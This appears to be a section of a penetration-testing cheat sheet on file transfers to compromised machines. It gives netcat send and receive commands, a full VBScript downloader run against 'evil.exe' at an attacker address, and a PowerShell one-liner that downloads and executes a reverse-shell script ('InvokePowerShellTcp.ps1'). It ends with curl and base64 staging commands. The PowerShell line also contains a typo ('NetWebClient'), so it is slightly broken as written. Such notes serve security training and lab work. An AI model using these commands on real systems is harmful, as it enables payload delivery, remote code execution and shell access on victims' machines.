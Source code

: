 ### File Transfers

#### nc/ncat
```bash
nc -nlvp 4444 > incoming.exe
nc -nv ip_address 4444 < incoming.exe
```

#### wget.vbs
The `wget.vbs` script that is uploaded to a Windows machine looks like this!
```bash
cscript wget.vbs http://10.10.10.10/evil.exe evil.exe
strUrl = WScript.Arguments.Item(0)
StrFile = WScript.Arguments.Item(1)
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1
Const HTTPREQUEST_PROXYSETTING_PROXY = 2
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts
Err.Clear
Set http = Nothing
Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest")
If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP")
If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP")
http.Open "GET", strURL, False
http.Send
varByteArray = http.ResponseBody
Set http = Nothing
Set fs = CreateObject("Scripting.FileSystemObject")
Set ts = fs.CreateTextFile(StrFile, True)
strData = ""
strBuffer = ""
For lngCounter = 0 to UBound(varByteArray)
ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1)))
Next
ts.Close
```

#### Powershell
```bash
powershell “IEX(New-Object NetWebClient).downloadString('http://10.10.14.7:8000/InvokePowerShellTcp.ps1')”
```

#### curl
```bash
curl localhost/filename
base64
cat file2upload | base64
cat fileWithBase64Content | base64 -d > finalBinary
```
